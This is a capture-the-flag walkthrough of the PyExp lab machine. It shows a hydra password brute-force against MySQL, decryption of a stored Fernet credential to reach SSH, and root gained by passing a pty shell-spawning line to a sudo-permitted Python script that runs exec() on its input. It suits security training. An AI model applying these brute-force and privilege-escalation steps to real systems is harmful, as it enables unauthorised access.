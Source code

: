 # PyExp
### Enumeration
Only ports 1337 and 3306 are open. 1337 is just SSH, 3306 is MySQL.

I couldn't find any exploits for the version of MySQL that appeared to be running, and various metasploit scanning scripts returned nothing. So I ran hydra with `root` as the username and `rockyou.txt` as the password list. And I got a result! The password is `prettywoman`.

Connecting to the MySQL server, we see the following databases:

```
MariaDB [(none)]> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.003 sec)

MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.001 sec)

MariaDB [data]> describe fernet;
+-------+--------------+------+-----+---------+-------+
| Field | Type         | Null | Key | Default | Extra |
+-------+--------------+------+-----+---------+-------+
| cred  | varchar(255) | YES  |     | NULL    |       |
| keyy  | varchar(255) | YES  |     | NULL    |       |
+-------+--------------+------+-----+---------+-------+
2 rows in set (0.003 sec)
```

We run `select * from fernet` and the get the values:
- `cred`: `gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`
- `keyy`: `UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=`

Googling `fernet`, it looks to be a crytographic scheme. We can decrypt `cred` using `keyy` as follows:

```python
from cryptography.fernet import Fernet
f = Fernet('UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=')
f.decrypt(b'gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=')

# Output: b'lucy:wJ9`"Lemdv9[FEw-'
```

We are able to connect via SSH using these credentials. We can immediately grab the user flag.

Running `sudo -l`, we see we are able to execute `/usr/bin/python2 /opt/exp.py`. The contents of `/opt/exp.py` is:

```python
uinput = raw_input('how are you?')
exec(uinput)
```

So running the sudo command, we provide as input to the python script `import pty;pty.spawn("/bin/bash")`. This gives us a root shell and we can grab the root flag.
